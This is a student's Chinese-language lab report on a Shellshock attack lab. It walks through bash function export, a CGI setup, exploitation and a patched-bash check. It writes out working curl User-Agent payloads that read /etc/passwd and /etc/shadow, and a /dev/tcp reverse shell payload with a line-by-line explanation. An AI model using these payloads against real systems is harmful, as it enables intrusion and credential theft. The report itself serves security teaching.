 # Shellshock Attack Lab

> Author: 1120162015 李博

## Task1: Experimenting with Bash Function 

### /bin/bash_shellshock

如下图，使用`bash 4.2.0`版本。

![shellshock_version](F:\大三下\攻防对抗技术\images\lab2-task1-shellshock_version.png)

结果如下，可以看到父进程定义的函数被成功传递到子进程，存在`shellshock`漏洞。

![shellshock](F:\大三下\攻防对抗技术\images\lab2-task1-shellshock.png)

###  /bin/bash

如下图，使用`bash 4.3.46`版本。

![bash_version](F:\大三下\攻防对抗技术\images\lab2-task1-bash_version.png)

可以看到在父进程中定义的函数并没有传递到子进程，

![bash](F:\大三下\攻防对抗技术\images\lab2-task1-bash.png)

## Task2: Setting up CGI programs

设置如下图

![setup_cgi](F:\大三下\攻防对抗技术\images\lab2-task2-setup-cgi.png)

## Task3: Passing Data to Bash via Environment Variable

结果如下图

![test_cgi](F:\大三下\攻防对抗技术\images\lab2-task3-test-cgi.png)

远程用户之所以能获取到系统当前shell的环境变量信息，是因为通过`curl`命令访问http://localhost/cgi-bin/myprog.cgi，而`myprog.cgi`的功能就是打印当前shell进程的环境变量。

## Task4: Launching the Shell shock Attack

### Step1: 获取秘密文件内容(/etc/passwd)

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`

![cat_passwd](F:\大三下\攻防对抗技术\images\lab2-task4-cat-passwd.png)

### Step2: 获取`/etc/shadow`内容

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/myprog.cgi`

结果如下

![cat_shadow](F:\大三下\攻防对抗技术\images\lab2-task4-cat-shadow.png)

可以看到**没有成功获取**。

于是打印一下执行`/bin/cat /etc/shadow`时的`whoami`。

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /usr/bin/whoami" http://localhost/cgi-bin/myprog.cgi`

![whoami](F:\大三下\攻防对抗技术\images\lab2-task4-whoami.png)

可以看到结果为`www-data`，这就是我们执行`/bin/cat /etc/shadow`失败的原因，因为获取`/etc/shadow`的内容需要`root`权限。

![sudo-cat-shadow](F:\大三下\攻防对抗技术\images\lab2-task4-sudo-cat.png)

## Task5: Getting a Reverse Shell via Shellshock Attack

这里使用本机localhost当做远程服务器，ip为`192.168.33.131`。

![ifconfig](F:\大三下\攻防对抗技术\images\lab2-task5-ifconfig.png)

首先执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

这行命令的关键在于`/bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1`，解释如下。

> `/bin/bash_shellshock`代表有漏洞的bash
>
> `-i`代表可交互式的shell
>
> `>` 代表将bash的标准输出重定向至`192.168.33.131`的9090端口
>
> `0>&1`代表将标准输入重定向至标准输出，而在上面bash的标准输出已重定向至tcp连接，故这里的标准输入也指向tcp连接。

综上，实现bash的输出显示在tcp连接中，并且bash的输入从tcp连接获取，达到reverse shell的目的。

结果如下

![reverse_shell](F:\大三下\攻防对抗技术\images\lab2-task5-reverse-shell.png)



## Task6: Using the Patched Bash 

### Step1: Passing Data to Bash via Environment Variable

结果如下，和`bash_shellshock`的输出无差异，因为该命令与是否有`shellshock`漏洞无关。

![task3_repeat](F:\大三下\攻防对抗技术\images\lab2-task6-task3.png)

### Step2: Launching the Shell shock Attack

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`。

![task4_repeat](F:\大三下\攻防对抗技术\images\lab2-task6-task4.png)

可以看到并没有执行`/bin/cat /etc/passwd`，因为bash中`shellshock`漏洞被修复。

### Step3: Getting a Reverse Shell via Shellshock Attack

执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

![task5_repeat](F:\大三下\攻防对抗技术\images\lab2-task6-task5.png)

可以看到反弹shell也失败了，原因在于bash中`shellshock`漏洞被修复，无法执行额外的命令。

